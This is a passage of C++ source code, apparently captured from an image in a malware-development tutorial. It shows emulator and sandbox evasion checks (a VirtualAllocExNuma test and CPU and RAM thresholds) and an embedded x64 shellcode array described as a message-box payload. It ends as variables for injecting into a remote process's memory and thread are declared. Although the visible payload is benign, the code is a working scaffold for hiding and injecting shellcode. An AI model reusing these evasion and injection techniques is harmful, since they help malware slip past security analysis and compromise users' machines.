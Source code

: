 ```cpp
  "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer
```